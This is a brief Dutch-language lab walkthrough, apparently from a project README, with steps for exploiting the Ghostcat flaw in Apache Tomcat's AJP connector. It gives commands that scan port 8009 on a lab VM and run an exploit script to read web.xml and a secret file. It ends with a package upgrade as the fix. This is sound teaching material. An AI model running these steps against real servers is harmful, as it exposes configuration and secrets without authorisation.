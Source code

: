 # 4) Starten van de aanval

## 1) Stappen om de aanval succesvol uit te voeren (Kali VM)

- open terminal in kali vm
- voer volgende commando's uit:
- 4.1) sudo cp /media/sf_kali_exploit_ghostcat.py ~/Desktop/
- 4.2) cd Desktop
- 4.3) sudo chmod +x exploit_ghostcat.py
- 4.4) nmap 10.10.10.4 -p 8009
- 4.5) python3 exploit_ghostcat.py http://10.10.10.4:8080/ 8009 /WEB-INF/web.xml read
- 4.6) python3 exploit_ghostcat.py http://10.10.10.4:8080/ 8009 /WEB-INF/secret.txt read

# 5) Voorkomen van de kwetsbaarheid

- open terminal in ubuntu vm
- voer volgende commando's uit:
- 5.1) sudo apt update && sudo apt upgrade tomcat9
